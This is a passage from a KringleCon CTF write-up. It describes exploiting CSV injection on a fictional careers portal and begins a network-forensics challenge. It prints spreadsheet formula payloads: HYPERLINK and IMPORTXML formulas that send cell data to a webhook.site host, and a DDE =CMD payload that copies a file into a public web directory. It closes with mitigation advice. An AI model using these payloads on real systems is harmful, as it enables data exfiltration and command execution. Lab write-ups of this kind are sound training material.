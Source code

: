 Since we can't seem to get any text-related exploits, and CSV stands out as an odd way of submitting work experience, let's try to [exploit the CSV using the HYPERLINK function](https://payatu.com/csv-injection-basic-to-exploit/). Since I'm too cheap to buy a VPS, and too lazy to allow traffic through my firewall, I'm going to use [a free online webhook](https://webhook.site/) to recieve my exfiltrated data. Using the two methods I am aware of to directly exfiltrate data, I crafted the following payload:
```
=HYPERLINK("https://webhook.site/<id>?data="&A1:A10&B1:B10&C1:C10, "Please click here!")
=IMPORTXML(CONCAT(""https://webhook.site/<id>?data="", CONCATENATE(A1:E1)), ""//a"")
```

After waiting 10 minutes, it seemed to have not worked, which is unfortunate. Since there is a web server running, though, there is at least one publicly accessable directory that I can copy my target file to. My first guess was the default for Windows IIS, _C:\inetpub\wwwroot_. When I checked the initial result, however, the 404 Page states the following:
>Publicly accessible file served from: C:\careerportal\resources\public\ not found......
>Try: https://careers.kringlecastle.com/public/'file name you are looking for'

Nice of their 404 Page to disclose a publically available directory. Using the following payload, after waiting a couple minutes, I browsed to "https://careers.kringlecastle.com/public/test.docx" and downloaded the target file.
```
=CMD|'/C copy C:\\candidate_evaluation.docx C:\\careerportal\\resources\\public\\test.docx'!A0
```

Krampus, who some might recognize as Santa's evil counterpart, is our applicant that was linked to the terrorist organization [Fancy Beaver](https://en.wikipedia.org/wiki/Fancy_Bear).

Having helped the elves identify the organization seems to have brought Hans' plot to a screeching halt.

CSV injection is a powerful and common vulnerability. As we saw, it can be used to directly exfiltrate data from a spreadsheet, or execute arbitrary commands. To mitigate it, as with most injection vulnerabilities, requires input sanitation. There are four key characters, +,-,=,@, that, when seen, should be prefixed with one single quote ('), as doing so prevents Excel and other spreadsheet software from interpreting that cell as a formula. Additionally, registry keys should be modified in accordance with [Microsoft Security Advisory 4053440](https://docs.microsoft.com/en-us/security-updates/securityadvisories/2017/4053440) to prevent auto-execution of Dynamic Data Exchange links. The final piece of the puzzle is, as always, user education, as, with the previous two controls in place, the user should, at the very least, be prompted to confirm that they would like to execute the DDE object. A properly educated user will know that such requests are not normal for Microsoft Office documents, decline the prompt, and at the very least delete the offending document from their computer.

[Link to Relevant Kringlecon Talk](http://www.youtube.com/watch?v=Z3qpcKVv2Bg)

### 8) Network Traffic Forensics
>Santa has introduced a web-based packet capture and analysis tool at [https://packalyzer.kringlecastle.com](https://packalyzer.kringlecastle.com) to support the elves and ton bheir information security work. Using the system, access and decrypt HTTP/2 network activity. What is the name of the song described in the document sent from Holly Evergreen to Alabaster Snowball?

This challenge took me a full week to figure out. I dove pretty deep, but after 3 full evenings, I took a step back and did challenge 9, then came back to it. Here is my *sucessful* method.

Upon browsing to the web page, we're greeted with a fairly standard login page. After attempting basic SQL injection with no luck, I clicked the link to register a new account. Again, failing to inject the input, I registered an arbitrary username. In my case, "administrator", hoping to get lucky and be able to use the registration page to change the password for a legitimate admin. That done, I logged into the application using my new account.
